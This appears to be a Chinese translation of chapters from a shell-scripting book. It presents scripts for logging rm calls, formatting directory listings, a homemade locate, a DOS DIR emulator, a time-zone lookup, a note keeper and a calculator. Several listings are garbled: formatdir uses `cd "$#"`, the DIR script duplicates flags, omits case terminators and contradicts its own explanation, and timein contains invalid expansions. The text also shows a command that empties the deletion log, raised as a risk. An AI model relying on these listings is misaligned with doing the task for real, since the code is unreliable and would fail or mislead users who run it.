与其给这个脚本起名为 `logrm`，安装包装程序的典型方法是将它打算包装的底层命令重命名，然后使用原命令的旧名称安装包装程序。但是，如果你选择这条路线，请确保包装程序调用的是重命名后的新程序，而不是它自己！例如，如果你将 `/bin/rm` 重命名为 `/bin/rm.old`，并将此脚本命名为 `/bin/rm`，那么脚本的最后几行需要修改，以便它调用 `/bin/rm.old` 而不是它自己。

或者，你可以使用别名（alias）将标准 `rm` 调用替换为此命令：

```bash
alias rm=logrm
```

无论采取哪种方式，你都需要对 `/var/log` 具有写权限和执行权限，这在你的特定系统中可能不是默认配置。

## 运行结果

让我们创建几个文件，删除它们，然后检查删除日志，如清单 2-11 所示。

```bash
$ touch unused.file ciao.c /tmp/junkit
$ logrm unused.file /tmp/junkit
$ logrm ciao.c
$ cat /var/log/remove.log
Thu Apr 6 11:32:05 MDT 2017: susan: /tmp/central.log
Fri Apr 7 14:25:11 MDT 2017: taylor: unused.file /tmp/junkit
Fri Apr 7 14:25:14 MDT 2017: taylor: ciao.c
```

*清单 2-11：测试 `logrm` shell 脚本*

啊！注意到在周四，用户 Susan 删除了文件 `/tmp/central.log`。

## 改进脚本

这里存在一个潜在的日志文件所有权权限问题。要么 `remove.log` 文件对所有人可写，在这种情况下，用户可以使用类似 `cat /dev/null > /var/log/remove.log` 的命令清空其内容；要么它不对所有人可写，在这种情况下，脚本无法记录事件。你可以使用 setuid 权限（让脚本以 root 身份运行），这样脚本就具有与日志文件相同的权限。然而，这种方法有两个问题。首先，这是一个非常糟糕的主意！永远不要在 setuid 下运行 shell 脚本！通过使用 setuid 以特定用户身份运行命令，无论谁执行该命令，你都可能给系统引入安全漏洞。其次，你可能会遇到用户有权删除其文件但脚本没有权限的情况，由于 setuid 设置的有效 uid 会被 `rm` 命令本身继承，这会导致程序崩溃。当用户甚至无法删除自己的文件时，会引起巨大的混乱！

如果你使用 ext2、ext3 或 ext4 文件系统（Linux 通常如此），另一种解决方案是使用 `chattr` 命令为日志文件设置特定的“仅限追加”（append-only）文件权限，然后将其设为所有人可写而无需担心风险。另一种解决方案是将日志消息写入 syslog，使用好用的 `logger` 命令。使用 `logger` 记录 `rm` 命令非常简单，如下所示：

```bash
logger -t logrm "${USER:-LOGNAME}: $@"
```

这会在 syslog 数据流中添加一条记录，普通用户无法触碰该记录，并且该记录被标记为 `logrm`、用户名以及指定的命令。

> **注意** 如果你选择使用 `logger`，你需要检查 `syslogd(8)` 以确保你的配置没有丢弃 `user.notice` 优先级的日志事件。这几乎总是指定在 `/etc/syslogd.conf` 文件中。

## #18 显示目录内容

`ls` 命令的一个方面似乎一直毫无意义：当列出目录时，`ls` 要么逐个文件列出目录内容，要么显示目录数据所需的 1,024 字节块的数量。`ls -l -1` 输出中的一个典型条目可能像这样：

```text
drwxrwxr-x 2 taylor taylor 4096 Oct 28 19:07 bin
```

但这没什么用！我们真正想知道的是目录中有多少个文件。这就是代码清单 2-12 中的脚本所做的事情。它会生成一个美观的多列文件和目录列表，显示文件的大小以及目录及其包含的文件数量。

### 代码

```bash
#!/bin/bash

# formatdir--以友好且有用的格式输出目录列表

# 注意，你需要确保 "scriptbc"（脚本 #9）在你的当前路径中
# 因为它在脚本中被多次调用。

scriptbc=$(which scriptbc)

# 将 KB 格式的大小转换为 KB、MB 或 GB，以便输出更具可读性
readablesize()
{
    if [ $1 -ge 1048576 ] ; then
        echo "$( $scriptbc -p 2 $1 / 1048576)GB"
    elif [ $1 -ge 1024 ] ; then
        echo "$( $scriptbc -p 2 $1 / 1024)MB"
    else
        echo "$1 KB"
    fi
}

#######################
## MAIN CODE
if [ $# -gt 1 ]; then
    echo "Usage: $0 [dirname]" >&2
    exit 1
fi

if [ $# -eq 1 ]; then    # 指定了当前目录以外的目录？
    cd "$#"              # 那么让我们切换到那个目录。
    if [ $? -ne 0 ]; then # 如果目录不存在则退出。
        exit 1
    fi
fi

for file in *
do
    if [ -d "$file" ]; then
        size=$(ls "$file" | wc -l | sed 's/[^[:digit:]]//g')
        if [ $size -eq 1 ]; then
            echo "$file ($size entry)"
        else
            echo "$file ($size entries)"
        fi
    else
        size=$(ls -sk "$file" | awk '{print $1}')
        echo "$file ($(readablesize $size))"
    fi
done | \
    sed 's/ /^^^/g' | \
    xargs -n 2 \
    sed 's/^^^/ /g' | \
    awk -F'|' '{ printf "%-39s %-39s\n", $1, $2 }'

exit 0
```

代码清单 2-12：用于更具可读性目录列表的 `formatdir` shell 脚本

### 工作原理

该脚本最有趣的部分之一是 `readablesize` 函数 ➊，它接收以 KB 为单位的数字，并根据最合适的单位将其值输出为 KB、MB、GB 或 TB。例如，不再将超大文件的大小显示为 2,083,364KB，该函数会将其显示为 2.08GB。注意 `readablesize` 是使用 `$()` 符号 ➋ 调用的：

```bash
echo "$file ($(readablesize $size))"
```

由于子 shell 会自动继承在运行中的 shell 中定义的任何函数，因此由 `$()` 序列创建的子 shell 可以访问 `readablesize` 函数。非常方便。

在脚本顶部的 ➌ 处，还有一个快捷方式，允许用户指定当前目录以外的目录，然后简单地使用 `cd` 将运行中的 shell 脚本的当前工作目录更改为所需位置。

该脚本的主要逻辑涉及将输出组织成两个整洁的对齐列。一个问题是，你不能简单地将输出流中的空格替换为换行符，因为文件和目录的名称中可能包含空格。为了解决这个问题，脚本在 ① 处首先将每个空格替换为三个脱字符（"^^^"）的序列。然后它使用 `xargs` 命令合并成对的行，使每组两行变成由一个真实的、预期的空格分隔的一行。最后，在 ② 处，它使用 `awk` 命令以正确的对齐方式输出列。

请注意，目录中（非隐藏）条目的数量可以在 ③ 处通过快速调用 `wc` 和使用 `sed` 来清理输出而轻松计算出来：

```bash
size=$(ls "$file" | wc -l | sed 's/[^[:digit:]]//g')
```

### 运行脚本

要列出当前目录，请像代码清单 2-13 所示那样在不带参数的情况下调用命令。要获取不同目录内容的详细信息，请将目录名作为唯一的命令行参数。

### 运行结果

```text
$ formatdir ~
Applications (0 entries)           Classes (4KB)
DEMO (5 entries)                     Desktop (8 entries)
Documents (38 entries)               Incomplete (9 entries)
IntermediateHTML (3 entries)         Library (38 entries)
Movies (1 entry)                     Music (1 entry)
NetInfo (9 entries)                   Pictures (38 entries)
Public (1 entry)                     Redhat 7.2 (2.08GB)
Shared (4 entries)                   Synchronize! Volume ID (4KB)
X Desktop (4KB)                      automatic-updates.txt (4KB)
bin (31 entries)                     cal-reliability.tar.gz (104KB)
cbtma.tar.gz (376KB)                 errata (2 entries)
fire aliases (4KB)                   games (3 entries)
junk (4KB)                           leftside navbar (39 entries)
mail (2 entries)                     perinatal.org (0 entries)
scripts.old (46 entries)             test.sh (4KB)
testfeatures.sh (4KB)                topcheck (3 entries)
tweakmktargs.c (4KB)                  websites.tar.gz (18.85MB)
```

代码清单 2-13：测试 `formatdir` shell 脚本

### 改进脚本

一个值得考虑的问题是，是否会有用户在文件名中使用三个连续脱字符的序列。这种命名习惯非常罕见——在我们抽样测试的一个包含 116,696 个文件的 Linux 安装中，任何文件名中都没有出现过一个脱字符——但如果确实发生了，你会得到一些混乱的输出。如果你对此感到担心，你可以通过将空格转换为在用户文件名中更不容易出现的其他字符序列来解决这个潜在的坑。四个脱字符？五个？

## #19 通过文件名定位文件

在 Linux 系统上非常有用，但并非所有其他 Unix 版本都具备的一个命令是 `locate`，它在预建的文件名数据库中搜索用户指定的正则表达式。想快速找到主 `.cshrc` 文件的位置吗？以下是使用 `locate` 实现的方法：

```text
$ locate .cshrc
/.Trashes/501/Previous Systems/private/etc/csh.cshrc
/OS9 Snapshot/Staging Archive//home/taylor/.cshrc
/private/etc/csh.cshrc
/Users/taylor/.cshrc
/Volumes/110GB/WEBSTITES/staging.intuitive.com/home/mdella/.cshrc
```

你可以看到，在这个 OS X 系统上，主 `.cshrc` 文件位于 `/private/etc` 目录下。我们将要构建的 `locate` 版本在构建内部文件索引时会扫描磁盘上的每个文件，无论该文件是在垃圾桶队列中、在单独的卷上，还是一个隐藏的点文件。这既是一个优点也是一个缺点，我们稍后将详细讨论。

### 代码

这种查找文件的方法实现简单，由两个脚本组成。第一个（如代码清单 2-14 所示）通过调用 `find` 构建所有文件名的数据库，第二个（如代码清单 2-15 所示）是对新数据库进行简单的 `grep`。

```bash
#!/bin/bash

# mklocatedb--使用 find 构建 locate 数据库。用户必须是 root
# 才能运行此脚本。

locatedb="/var/locate.db"

if [ "$(whoami)" != "root" ]; then
    echo "Must be root to run this command." >&2
    exit 1
fi

find / -print > $locatedb

exit 0
```

代码清单 2-14：`mklocatedb` shell 脚本

第二个脚本更短。

```bash
#!/bin/sh

# locate--在 locate 数据库中搜索指定的模式

locatedb="/var/locate.db"

exec grep -i "$1" $locatedb
```

代码清单 2-15：`locate` shell 脚本

### 工作原理

`mklocatedb` 脚本必须以 root 用户身份运行，以确保它能看到整个系统中的所有文件，因此在 ❶ 处通过调用 `whoami` 来进行检查。然而，以 root 身份运行任何脚本都是一个安全问题，因为如果某个目录禁止特定用户访问，那么 `locate` 数据库就不应存储关于该目录及其内容的任何信息。这个问题将在第 5 章中通过一个新的、更安全的 `locate` 脚本来解决，该脚本会考虑隐私和安全性（见第 127 页的脚本 #39）。不过目前，这个脚本完全模拟了标准 Linux、OS X 和其他发行版中 `locate` 命令的行为。

如果 `mklocatedb` 需要几分钟或更长时间才能运行，请不要惊讶；它正在遍历整个文件系统，即使在体量中等的系统上也可能需要一段时间。结果也可能非常庞大。在我们测试的一个 OS X 系统上，`locate.db` 文件有超过 150 万个条目，占用了 1874.5MB 的磁盘空间。

一旦数据库构建完成，`locate` 脚本本身编写起来就轻而易举了；它仅仅是对 `grep` 命令的一次调用，并传入用户指定的任何参数。

### 运行脚本

要运行 `locate` 脚本，首先必须运行 `mklocatedb`。完成后，`locate` 的调用几乎能瞬间找到系统上匹配任何指定模式的所有文件。

### 运行结果

`mklocatedb` 脚本没有参数或输出，如代码清单 2-16 所示。

```text
$ sudo mklocatedb
Password:
...
Much time passes
...
$
```

代码清单 2-16：使用 `sudo` 命令以 root 身份运行 `mklocatedb` shell 脚本

我们可以通过快速执行 `ls` 来检查数据库的大小，如下所示：

```text
$ ls -l /var/locate.db
-rw-r--r-- 1 root wheel 174088165 Mar 26 10:02 /var/locate.db
```

现在，我们准备好使用 `locate` 在系统中查找文件了：

```text
$ locate -i solitaire
/Users/taylor/Documents/AskDaveTaylor image folders/0-blog-pics/vista-search-solitaire.png
/Users/taylor/Documents/AskDaveTaylor image folders/8-blog-pics/windows-play-solitaire-1.png
/usr/share/emacs/22.1/lisp/play/solitaire.el.gz
/usr/share/emacs/22.1/lisp/play/solitaire.elc
/Volumes/MobileBackups/Backups.backupdb/Dave’s MBP/2014-03-04-163622/BIGHD/Users/taylor/Documents/AskDaveTaylor image folders/0-blog-pics/vista-search-solitaire.png
/Volumes/MobileBackups/Backups.backupdb/Dave’s MBP/2014-03-04-163622/BIGHD/Users/taylor/Documents/AskDaveTaylor image folders/8-blog-pics/windows-play-solitaire-3.png
```

这个脚本还可以让你获取关于系统的其他有趣统计数据，例如你有多少个 C 源代码文件，如下所示：

```text
$ locate '\.c$' | wc -l
1479
```

> **注意** 请注意这里的正则表达式。`grep` 命令要求我们对点号（`.`）进行转义，否则它将匹配任何单个字符。此外，`$` 表示行尾，在本例中即表示文件名的末尾。

如果再多花一点功夫，我们可以将每一个 C 源代码文件传递给 `wc` 命令，从而计算出系统中 C 代码的总行数，但，嗯，那样做有点太傻了，不是吗？

### 修改脚本


为了保持数据库能够合理地更新，可以很容易地将`mlocatedb`调度在 cron 中，在深夜每周运行一次（大多数内置`locate`命令的系统都是这样做的），或者根据本地使用模式更频繁地运行。与任何由 root 用户执行的脚本一样，请务必确保脚本本身不能被非 root 用户编辑。

对该脚本的一个潜在改进是让`locate`检查其调用情况，如果在未指定模式或`locate.db`文件不存在时，则返回一个有意义的错误消息。按照目前的写法，脚本会输出一个标准的`grep`错误，这没什么用处。更重要的是，正如我们之前讨论的，允许用户访问系统中所有文件名的列表（包括他们通常无法看到的那些）存在严重的安全性问题。关于此脚本的安全性改进在第 127 页的脚本 #39 中有所讨论。

### #20 模拟其他环境：MS-DOS

虽然你可能永远不需要它们，但将经典的 MS-DOS 命令（如 DIR）创建为兼容 Unix 的 shell 脚本，对于学习一些脚本概念来说是非常有趣且具有启发性的。当然，我们可以简单地使用 shell 别名将 DIR 映射到 Unix 的`ls`命令，如本例所示：

```bash
alias DIR=ls
```

但这种映射并没有模拟该命令的实际行为；它只是帮助健忘的人学习新的命令名称。如果你熟悉古老的计算方式，你会记得例如`/W`选项可以产生宽列表格式。但如果你现在向`ls`命令指定`/W`，程序只会抱怨`/W`目录不存在。相反，清单 2:17 中的以下 DIR 脚本可以编写成支持正斜杠风格的命令标志。

#### 代码

```bash
#!/bin/bash
# DIR--模拟 DOS 中的 DIR 命令并显示指定文件的内容，
# 接受部分标准的 DIR 标志

function usage
{
  cat << EOF >&2
Usage: $0 [DOS flags] directory or directories
Where:
  /H    sort by columns
  /H    show help for this shell script
  /N    show long listing format with filenames on right
  /OD   sort by oldest to newest
  /O-D  sort by newest to oldest
  /P    pause after each screenful of information
  /Q    show owner of the file
  /S    recursive listing
  /W    use wide listing format
EOF
  exit 1
}

##########################
### MAIN BLOCK

postcmd=""
flags=""

while [ $# -gt 0 ]
do
	case $1 in
		/D		) flags="$flags -x"
		/H		) usage
		/H		) flags="$flags -1"
		/[NQU]	) flags="$flags -rt"
		/OD		) flags="$flags -rt"
		/O-D		) flags="$flags -t"
		/P		) postcmd="more"
		/S		) flags="$flags -s"
		*		) # Unknown flag: probably a DIR specifier break;
			# so let's get out of the whole loop.
	esac
	shift	# Processed flag; let's see if there's another.
done

# Done processing flags; now the command itself:

if [ ! -z "$postcmd" ]; then
	ls $flags "$@" | $postcmd
else
	ls $flags "$@"
fi

exit 0
```

清单 2-17：在 Unix 上模拟 DOS DIR 命令的 DIR shell 脚本

#### 工作原理

这个脚本突出了 shell`case`语句条件测试实际上是正则表达式测试这一事实。你可以看到 DOS 标志`/N`、`/Q`和`/W`在最终调用`ls`命令时都映射到了同一个 Unix 标志`-1`，而这一切都是在一个正则表达式`/[NQU]`中完成的。

#### 运行脚本

将此脚本命名为`DIR`（并考虑创建一个系统范围的 shell 别名`dir=DIR`，因为 DOS 不区分大小写，但 Unix 绝对区分大小写）。这样，每当用户在命令行输入`DIR`并带有典型的 MS-DOS DIR 标志时，他们将获得有意义且有用的输出（如清单 2-18 所示），而不是“command not found”错误消息。

#### 结果

```text
$ DIR /OD /S ~/Desktop
total 48320
7720 PERP - Google SEO.pdf
0 Traffic Data
8 godfatherhood-com-crawlers.csv
16 top-100-errors.txt
0 $RECYCLE.BIN
28816 Thumbs.db
8 desktop.ini
80 change-lid-close-behavior-win7-1.png
176 change-lid-close-behavior-win7-2.png
400 change-lid-close-behavior-win7-3.png
0 Drive Sunshine
96 facebook-forcing-pay.jpg
10704 WCSS Source Files

264 change-lid-close-behavior-win7-4.png
32 change-lid-close-behavior-win7-5.png
```

清单 2-18：测试列出文件的 DIR shell 脚本

这个指定目录的列表按从旧到新排序，并显示了文件大小（尽管目录的大小始终为 0）。

#### 修改脚本

到目前为止，可能很难找到还记得 MS-DOS 命令行的人，但这个基本概念很强大且值得了解。例如，你可以做的一项改进是在执行之前显示等效的 Unix 或 Linux 命令，然后在经过一定次数的系统调用后，让脚本仅显示翻译而不实际执行命令。这样用户将被迫学习新命令才能完成任何操作！

### #21 在不同时区显示时间

一个可运行的`date`命令最基本的要求是它能显示你所在时区的日期和时间。但如果你有分布在多个时区的用户怎么办？或者更常见的情况是，如果你在不同地点有朋友和同事，而你总是对卡萨布兰卡、梵蒂冈城或悉尼现在是什么时间感到困惑怎么办？

事实证明，大多数现代 Unix 变体上的`date`命令是构建在一个惊人的时区数据库之上的。这个数据库通常存储在`/usr/share/zoneinfo`目录中，列出了 600 多个区域，并详细记录了每个区域相对于 UTC（协调世界时，通常也称为 GMT 或格林威治标准时间）的适当时区偏移量。`date`命令会关注`TZ`时区变量，我们可以将其设置为数据库中的任何区域，如下所示：

```text
$ TZ="Africa/Casablanca" date
Fri Apr 7 16:31:01 2017 WEST
```

然而，大多数系统用户不习惯指定临时环境变量设置。通过使用 shell 脚本，我们可以为时区数据库创建一个更用户友好的前端。

清单 2-19 中脚本的大部分内容涉及在时区数据库（通常存储在`zonedir`目录的多个文件中）中搜寻并尝试找到与指定模式匹配的文件。一旦找到匹配的文件，脚本会获取完整的时区名称（如本例中的`TZ="Africa/Casablanca"`），并将其作为子 shell 环境设置来调用`date`。`date`命令检查`TZ`以确定其所在的时区，而无需知道这是一个临时设置还是你大部分时间所在的时区。

#### 代码

```bash
#!/bin/bash

# timein--显示指定时区或地理区域的当前时间。
# 如果不带任何参数，则显示 UTC/GMT。
# 使用单词 "list" 可查看已知地理区域的列表。
# 注意，虽然可以匹配区域目录（regions），
# 但只有时区文件（cities）才是有效的规格。

# 时区数据库参考: http://www.twinsun.com/tz/tz-link.htm

zonedir="/usr/share/zoneinfo"

if [ ! -d $zonedir ] ; then
    echo "No time zone database at $zonedir." >&2
    exit 1
fi

if [ -d "$zonedir/posix" ] ; then
    zonedir=$zonedir/posix # 现代 Linux 系统
fi

if [ $# -eq 0 ] ; then
    timezone="UTC"
    mixedzone="UTC"
elif [ "$1" = "list" ] ; then
    ( echo " All known time zones and regions defined on this system:"
      cd $zonedir
      find -L -type f -print | xargs -n 2 | \
        awk '{ printf " %-38s %-38s\n", $1, $2 }'
    ) | more
    exit 0
else

    region="$(dirname $1)"
    zone="$(basename $1)"

    # 给定的时区是否直接匹配？如果是，则可以直接运行。
    # 否则，我们需要深入挖掘以寻找目标。首先通过计算匹配项开始。

    matchcnt="$(find -L $zonedir -name $zone -type f -print | \
        wc -l | sed 's/[^0-9]//g' )"

    # 检查是否至少有一个文件匹配。
    if [ "$matchcnt" -gt 0 ] ; then
        # 如果超过一个文件匹配，则退出。
        if [ $matchcnt -gt 1 ] ; then
            echo "\"$zone\" matches more than one possible time zone record." >&2
            echo "Please use 'list' to see all known regions and time zones." >&2
            exit 1
        fi

        match="$(find -L $zonedir -name $zone -type f -print)"
        mixedzone="$zone"

        # 也许我们可以找到一个匹配的时区区域，而不是一个具体的时区。
        # 区域 + 时区：首字母大写，其余小写
        mixedregion="${echo ${region%%(*${region#*})}} \
          | tr '[:lower:]' '[:upper:]'"\
          ${echo ${region#*})' | tr '[:upper:]' '[:lower:]')"

        mixedzone="${echo ${zone%%(*${zone#*})}} | tr '[:lower:]' '[:upper:]' \
          ${echo ${zone#*})' | tr '[:upper:]' '[:lower:]')"

        if [ "$mixedregion" = "-" ] ; then
          # 仅在指定区域中查找指定时区
          # 这样当存在多个可能性（例如 "Atlantic"）时，
          # 可以让用户指定唯一的匹配项。
          match="$(find -L $zonedir/$mixedregion -type f -name $mixedzone -print)"
        else
          match="$(find -L $zonedir -name $mixedzone -type f -print)"
        fi

        # 如果文件精确匹配了指定的模式
        if [ -z "$match" ] ; then
          # 检查模式是否过于模糊。
          if [ -z "$(find -L $zonedir -name $mixedzone -type d -print) " ] ; then
            echo "The region '$1' has more than one time zone. " >&2
          else # 或者根本没有产生任何匹配
            echo "Can't find an exact match for '$1'. " >&2
          fi
          echo "Please use 'list' to see all known regions and time zones." >&2
          exit 1
        fi

        timezone="$match"
    fi

    nicetz=$(echo $timezone | sed "s|$zonedir||g") # 美化输出。

    echo It's $(TZ=$timezone date '+%A, %B %e, %Y, at %l:%M %p') in $nicetz

    exit 0
fi
```

代码清单 2-19：用于报告特定时区时间的`timein` shell 脚本

#### 工作原理

该脚本利用了`date`命令能够显示指定时区的日期和时间的能力，而无需考虑你当前的环境设置。事实上，整个脚本的核心都在于识别一个有效的时区名称，以便在最后调用`date`命令时能够正常工作。

该脚本的大部分复杂性在于尝试预判用户输入的全球区域名称，因为这些名称可能与时区数据库中的区域名称不匹配。时区数据库由“时区名称”和“区域/地点名称”列组成，脚本尝试为典型的输入问题显示有用的错误消息，例如找不到某个时区，因为用户指定的是像巴西这样拥有多个时区的国家。

例如，虽然执行`TZ="Casablanca" date`会因为找不到匹配的区域而失败并显示 UTC/GMT 时间，但卡萨布兰卡（Casablanca）这个城市确实存在于时区数据库中。问题在于，你必须使用其正确的区域名称`Africa/Casablanca`才能使其生效，正如本脚本的介绍中所演示的那样。

另一方面，本脚本可以自行在 Africa 目录下找到 Casablanca 并准确识别该时区。然而，仅指定`Africa`是不够具体的，因为脚本知道非洲内部还有子区域，因此它会产生一条错误消息，提示信息不足以唯一识别一个特定的时区。你也可以直接使用`list`列出所有时区，或者使用实际的时区名称（例如 UTC 或 WET）作为该脚本的参数。

> **注意** 可以在线找到时区数据库的极佳参考资料：http://www.twinsun.com/tz/tz-link.htm。

#### 运行脚本

要检查某个区域或城市的时间，请将区域或城市名称作为`timein`命令的参数。如果你同时知道区域和城市，也可以将其指定为`region/city`（例如 Pacific/Honolulu）。如果不带任何参数，`timein`将显示 UTC/GMT。代码清单 2-20 展示了`timein`脚本在各种时区下的运行情况。

#### 运行结果

```text
$ timein
It’s Wednesday, April 5, 2017, at 4:00 PM in UTC
$ timein London
It’s Wednesday, April 5, 2017, at 5:00 PM in Europe/London
$ timein Brazil
The region "Brazil" has more than one time zone. Please use 'list'
to see all known regions and time zones.
$ timein Pacific/Honolulu
It’s Wednesday, April 5, 2017, at 6:00 AM in Pacific/Honolulu
$ timein WET
It’s Wednesday, April 5, 2017, at 5:00 PM in WET
$ timein mycloset
Can’t find an exact match for "mycloset". Please use 'list'
to see all known regions and time zones.
```

代码清单 2-20：使用各种时区测试`timein` shell 脚本

#### 改造脚本

能够知道全球特定时区的时间是一项很棒的能力，尤其是对于管理全球网络的系统管理员来说。但有时，你可能只想快速知道两个时区之间的*时间差*。可以通过改造`timein`脚本来实现这一功能。通过基于`timein`脚本创建一个新脚本（例如命名为`tzdiff`），你可以让它接受两个参数而不是一个。

利用这两个参数，你可以确定两个时区的当前时间，然后打印出两者之间的小时数差异。但请记住，两个时区之间两小时的差异可能是*快*两小时或*慢*两小时，这有很大的区别。区分是前移还是后移两小时，对于使这个改造脚本变得实用至关重要。

# 3 创建实用工具


创建 shell 脚本的主要目的之一，是将复杂的命令行序列放入文件中，使其可重复且易于调整。因此，用户命令散布在本书各处也就不足为奇了。令人惊讶的是什么？是我们还没有为 Linux、Solaris 和 OS X 系统上的每一个命令都写一个包装器（wrapper）。

Linux/Unix 是唯一一个主要的操作系统，你可以在其中决定你不喜欢某个命令的默认标志，并只需通过几次按键就永久地修复它；或者你可以通过使用别名（alias）或十几行脚本来模拟其他操作系统中你最喜欢的实用程序的行为。这就是 Unix 如此极其有趣的地方——也是最初写这本书的原因！

### 提醒工具

多年来，Windows 和 Mac 用户一直很欣赏像 Stickies 这样简单的实用工具，这些精简的应用程序允许你将小笔记和提醒贴在屏幕上。它们非常适合记录电话号码或其他提醒事项。不幸的是，如果你想在 Unix 命令行工作时记录笔记，并没有类似的替代品，但这个问题可以通过这对脚本轻松解决。

第一个脚本 `remember`（见代码清单 3-1）让你能轻松地将信息片段保存到家目录中的一个 `rememberfile` 文件中。如果调用时没有参数，它将读取标准输入，直到按下 CTRL-D 给出文件结束符（EOF）序列。如果调用时带有参数，它会将这些参数直接保存到数据文件中。

这对组合的另一半是 `remindme`，这是一个配套的 shell 脚本（见代码清单 3-2）。当没有给出参数时，它会显示整个 `rememberfile` 的内容；或者使用参数作为模式，显示搜索后的结果。

#### 代码

```bash
#!/bin/bash

# remember--一个简单的基于命令行的提醒便签

rememberfile="$HOME/.remember"

if [ $# -eq 0 ] ; then
    # 提示用户输入，并将他们写入的所有内容追加到
    # rememberfile 中。
    echo "Enter note, end with CTRL-D: "
    cat >> $rememberfile
else
    # 将传递给脚本的任何参数追加到 .remember 文件中。
    echo "$@" >> $rememberfile
fi

exit 0
```

代码清单 3-1：`remember` shell 脚本

代码清单 3-2 详细介绍了配套脚本 `remindme`。

```bash
#!/bin/bash

# remindme--在数据文件中搜索匹配行，
# 如果未指定参数，则显示数据文件的全部内容

rememberfile="$HOME/.remember"

if [ ! -f $rememberfile ] ; then
    echo "$0: You don't seem to have a .remember file. " >&2
    echo "To remedy this, please use 'remember' to add reminders" >&2
fi
```

```bash
exit 1
fi

if [ $# -eq 0 ]; then
    # Display the whole rememberfile when not given any search criteria.
    more $rememberfile
else
    # Otherwise, search through the file for the given terms, and display
    # the results neatly.
    grep -i "$@" $rememberfile | ${PAGER:-more}
fi

exit 0
```

Listing 3-2: The remindme shell script, a companion to the remember shell script in Listing 3-1

代码清单 3-2：`remindme` shell 脚本，它是代码清单 3-1 中 `remember` shell 脚本的配套程序

## 如何运作（How It Works）

代码清单 3-1 中的 `remember` shell 脚本既可以作为一个交互式程序运行，请求用户输入要记住的详情；也可以通过脚本化运行，因为它同样可以接收任何要存储的内容作为命令行参数。如果用户没有向脚本传递任何参数，我们会采用一种巧妙的编程方式：在打印一条关于如何输入项目的用户友好消息后，我们使用 `cat` 从用户那里读取数据。

```bash
cat >> $rememberfile
```

在之前的章节中，我们使用 `read` 命令来获取用户输入。这行代码使用 `cat` 从 stdin（命令中的 `-` 根据上下文是 stdin 或 stdout 的缩写）读取，直到用户按下 CTRL-D，这会告诉 `cat` 工具文件已结束。`cat` 会将从 stdin 读取的数据打印出来，并将这些数据追加到 `rememberfile` 中。

然而，如果向脚本指定了参数，所有参数将原样追加到 `rememberfile` 中。

如果 `rememberfile` 不存在，代码清单 3-2 中的 `remindme` 脚本将无法工作，因此我们在尝试执行任何操作之前，首先检查 `rememberfile` 是否存在。如果 `rememberfile` 不存在，我们在向屏幕打印一条告知用户原因的消息后立即退出。

如果没有参数传递给脚本，我们假设用户只想查看 `rememberfile` 的内容。我们使用 `more` 工具以允许分页浏览 `rememberfile`，直接向用户显示内容。

否则，如果传递了参数给脚本，我们将执行不区分大小写的 `grep` 以在 `rememberfile` 中搜索任何匹配项，然后同样以分页形式显示这些结果。

## 运行脚本（Running the Script）

要使用 `remindme` 工具，首先使用 `remember` 脚本将笔记、电话号码或任何其他内容添加到 `rememberfile` 中，如代码清单 3-3 所示。然后使用 `remindme` 搜索这个自由格式的数据库，你可以指定任意长度的匹配模式。

### 运行结果（The Results）

```text
$ remember Southwest Airlines: 800-IFLYSWA
$ remember
Enter note, end with CTRL-D:
Find Dave's film reviews at http://www.DaveOnFilm.com/
^D
```

Listing 3-3: Testing the remember shell script

代码清单 3-3：测试 `remember` shell 脚本

当你几个月后想要回忆起那条笔记时，代码清单 3-4 展示了你如何找到该提醒。

```text
$ remindme film reviews
Find Dave's film reviews at http://www.DaveOnFilm.com/
```

Listing 3-4: Testing the remindme shell script

代码清单 3-4：测试 `remindme` shell 脚本

或者，如果你有一个想不起的 800 电话号码，代码清单 3-5 演示了如何定位部分电话号码。

```text
$ remindme 800
Southwest Airlines: 800-IFLYSWA
```

Listing 3-5: Locating a partial phone number with the remindme script

代码清单 3-5：使用 `remindme` 脚本定位部分电话号码

### 改造脚本（Hacking the Script）

虽然这些脚本绝对算不上 shell 脚本编程的杰作，但它们简洁地展示了 Unix 命令行的可扩展性。如果你能想象出某种功能，那么很可能有一种简单的方法可以实现它。

这些脚本可以通过多种方式改进。例如，你可以引入“记录”的概念：每个 `remember` 条目都带有时间戳，且多行输入可以保存为一条记录，从而可以使用正则表达式进行搜索。这种方法允许你存储一组人的电话号码，只需记住组中一个人的名字就能检索出所有号码。如果你非常热衷于脚本编写，可能还想加入编辑和删除功能。不过，手动编辑 `~/.remember` 文件其实也非常简单。

## #23 交互式计算器（An Interactive Calculator）

如果你还记得，`scriptbc`（第 34 页的脚本 #9）允许我们将浮点数 `bc` 计算作为内联命令行参数调用。接下来的逻辑步骤是编写一个包装脚本，将此脚本转变为一个完全交互式的基于命令行的计算器。该脚本（见代码清单 3-6）最终非常短！请确保 `scriptbc` 脚本在 `PATH` 中，否则此脚本将无法运行。

### 代码（The Code）

```bash
#!/bin/bash

# calc--A command line calculator that acts as a frontend to bc

scale=2

show_help()
{
    cat << EOF
    In addition to standard math functions, calc also supports:

    a % b    remainder of a/b
    a ^ b    exponential: a raised to the b power
    s(x)    sine of x, x in radians
    c(x)    cosine of x, x in radians
    a(x)    arctangent of x, x in radians
    l(x)    natural log of x, x
    e(x)    exponential log of raising e to the x
    j(n,x)  Bessel function of integer order n of x
    scale N show N fractional digits (default = 2)
    EOF
}

if [ $# -gt 0 ]; then
    exec scriptbc "$@"
fi

echo "Calc--a simple calculator. Enter 'help' for help, 'quit' to quit."

/bin/echo -n "calc> "

while read command args
do
    case $command
    in
        quit|exit) exit 0
        help|\?)   show_help
        scale)     scale=$args
        *)         scriptbc -p $scale "$command" "$args"
    esac

    /bin/echo -n "calc> "
done

echo ""

exit 0
```

Listing 3-6: The calc command line calculator shell script

代码清单 3-6：`calc` 命令行计算器 shell 脚本

### 如何运作（How It Works）

这段代码中最有趣的部分可能是 `while read` 语句 ❶，它创建了一个无限循环，显示 `calc>` 提示符，直到用户通过输入 `quit` 或输入文件结束符（CTRL-D）退出。这个脚本的简单性正是其绝妙之处：shell 脚本不需要复杂才能有用！

### 运行脚本（Running the Script）

此脚本使用了我们在脚本 #9 中编写的浮点计算器 `scriptbc`，因此在运行之前，请确保你的 `PATH` 中有名为 `scriptbc` 的脚本（或将变量如 `$scriptbc` 设置为该脚本的当前名称）。默认情况下，脚本作为一个交互式工具运行，提示用户输入所需操作。如果调用时带有参数，这些参数将传递给 `scriptbc` 命令。代码清单 3-7 展示了这两种使用方式。

### 运行结果（The Results）

```text
$ calc 150 / 3.5
42.85
$ calc
Calc--a simple calculator. Enter 'help' for help, 'quit' to quit.
calc> help
```

除了标准数学函数外，`calc` 还支持：

- `a % b` a/b 的余数
